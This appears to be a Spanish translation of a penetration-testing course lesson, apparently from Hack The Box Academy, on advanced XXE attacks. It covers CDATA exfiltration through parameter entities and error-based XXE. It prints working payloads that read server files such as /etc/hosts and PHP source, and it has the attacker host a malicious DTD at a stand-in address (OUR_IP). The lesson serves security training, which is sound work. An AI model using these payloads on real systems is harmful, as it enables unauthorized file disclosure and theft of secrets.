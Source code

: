 No todas las vulnerabilidades de XXE pueden ser fáciles de explotar, como hemos visto en la sección anterior. Algunos formatos de archivo pueden no ser legibles a través de XXE básico, mientras que en otros casos, la aplicación web puede no mostrar ningún valor de entrada en algunas instancias, por lo que podemos intentar forzarlo a través de errores.

---

## Advanced Exfiltration with CDATA

En la sección anterior, vimos cómo podíamos usar filtros PHP para codificar archivos fuente PHP, de manera que no rompieran el formato XML cuando se referenciaban, lo que (como vimos) nos impedía leer estos archivos. Pero, ¿qué pasa con otros tipos de aplicaciones web? Podemos utilizar otro método para extraer cualquier tipo de datos (incluidos datos binarios) para cualquier backend de aplicación web. Para generar datos que no se ajusten al formato XML, podemos envolver el contenido de la referencia del archivo externo con una etiqueta `CDATA` (por ejemplo, `<![CDATA[ FILE_CONTENT ]]>`). De esta manera, el analizador XML consideraría esta parte como datos sin procesar, que pueden contener cualquier tipo de datos, incluidos caracteres especiales.

Una forma sencilla de abordar este problema sería definir una entidad interna `begin` con `<![CDATA[`, una entidad interna `end` con `]]>`, y luego colocar nuestra entidad de archivo externo en medio, y debería considerarse como un elemento `CDATA`, de la siguiente manera:

```r
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

Después de eso, si referenciamos la entidad `&joined;`, debería contener nuestros datos escapados. Sin embargo, esto no funcionará, ya que XML impide unir entidades internas y externas, por lo que tendremos que encontrar una mejor manera de hacerlo.

Para evitar esta limitación, podemos utilizar `XML Parameter Entities`, un tipo especial de entidad que comienza con un carácter `%` y solo se puede usar dentro del DTD. Lo único de las entidades de parámetros es que si las referenciamos desde una fuente externa (por ejemplo, nuestro propio servidor), todas se considerarán como externas y se pueden unir, de la siguiente manera:

```r
<!ENTITY joined "%begin;%file;%end;">
```

Entonces, intentemos leer el archivo `submitDetails.php` almacenando primero la línea anterior en un archivo DTD (por ejemplo, `xxe.dtd`), alojándolo en nuestra máquina y luego refiriéndonos a él como una entidad externa en la aplicación web objetivo, de la siguiente manera:

```r
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora, podemos referenciar nuestra entidad externa (`xxe.dtd`) y luego imprimir la entidad `&joined;` que definimos anteriormente, que debería contener el contenido del archivo `submitDetails.php`, de la siguiente manera:

```r
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Una vez que escribamos nuestro archivo `xxe.dtd`, lo alojemos en nuestra máquina y luego agreguemos las líneas anteriores a nuestra solicitud HTTP a la aplicación web vulnerable, finalmente podemos obtener el contenido del archivo `submitDetails.php`: ![php_cdata](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

Como podemos ver, pudimos obtener el código fuente del archivo sin necesidad de codificarlo en base64, lo que ahorra mucho tiempo al revisar varios archivos en busca de secretos y contraseñas.

**Nota:** En algunos servidores web modernos, es posible que no podamos leer algunos archivos (como index.php), ya que el servidor web estaría evitando un ataque DOS causado por la auto-referencia de archivos/entidades (es decir, un bucle de referencia de entidad XML), como se mencionó en la sección anterior.

Este truco puede ser muy útil cuando el método básico de XXE no funciona o cuando se trata con otros marcos de desarrollo web. Trata de usar este truco para leer otros archivos.

---

## Error Based XXE

Otra situación en la que podemos encontrarnos es aquella en la que la aplicación web no genera ninguna salida, por lo que no podemos controlar ninguna de las entidades de entrada XML para escribir su contenido. En tales casos, estaríamos `a ciegas` ante la salida XML y, por lo tanto, no podríamos recuperar el contenido del archivo utilizando nuestros métodos habituales.

Si la aplicación web muestra errores de tiempo de ejecución (por ejemplo, errores de PHP) y no tiene un manejo adecuado de excepciones para la entrada XML, entonces podemos usar este fallo para leer la salida del exploit XXE. Si la aplicación web no escribe salida XML ni muestra errores, nos enfrentaríamos a una situación completamente ciega, que discutiremos en la siguiente sección.

Consideremos el ejercicio que tenemos en `/error` al final de esta sección, en el que ninguna de las entidades de entrada XML se muestra en la pantalla. Debido a esto, no tenemos ninguna entidad que podamos controlar para escribir la salida del archivo. Primero, intentemos enviar datos XML malformados y veamos si la aplicación web muestra algún error. Para hacerlo, podemos eliminar cualquiera de las etiquetas de cierre, cambiar una de ellas, para que no se cierre (por ejemplo, `<roo>` en lugar de `<root>`), o simplemente referenciar una entidad inexistente, como se muestra: ![cause_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

Vemos que, de hecho, hicimos que la aplicación web mostrara un error, y también reveló el directorio del servidor web, que podemos usar para leer el código fuente de otros archivos. Ahora, podemos explotar este fallo para exfiltrar el contenido del archivo. Para hacerlo, usaremos una técnica similar a la que usamos anteriormente. Primero, alojaremos un archivo DTD que contenga el siguiente payload:

```r
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

El payload anterior define la entidad de parámetro `file` y luego la une con una entidad que no existe. En nuestro ejercicio anterior, estábamos uniendo tres cadenas. En este caso, `%nonExistingEntity;` no existe, por lo que la aplicación web generaría un error diciendo que esta entidad no existe, junto con nuestra entidad `file;` unida como parte del error. Hay muchas otras variables que pueden causar un error, como una URI incorrecta o tener caracteres no válidos en el archivo referenciado.

Ahora, podemos llamar a nuestro script DTD externo y luego referenciar la entidad `error`, de la siguiente manera:

```r
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Una vez que alojemos nuestro script DTD como hicimos anteriormente y enviemos el payload anterior como nuestros datos XML (no es necesario incluir ningún otro dato XML), obtendremos el contenido del archivo `/etc/hosts` de la siguiente manera: ![exfil_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

Este método también se puede usar para leer el código fuente de los archivos. Todo lo que tenemos que hacer es cambiar el nombre del archivo en nuestro script DTD para apuntar al archivo que queremos leer (por ejemplo, `"file:///var/www/html/submitDetails.php"`). Sin embargo, este método no es tan confiable como el método anterior para leer archivos fuente, ya que puede tener limitaciones de longitud y ciertos caracteres especiales aún pueden romperlo.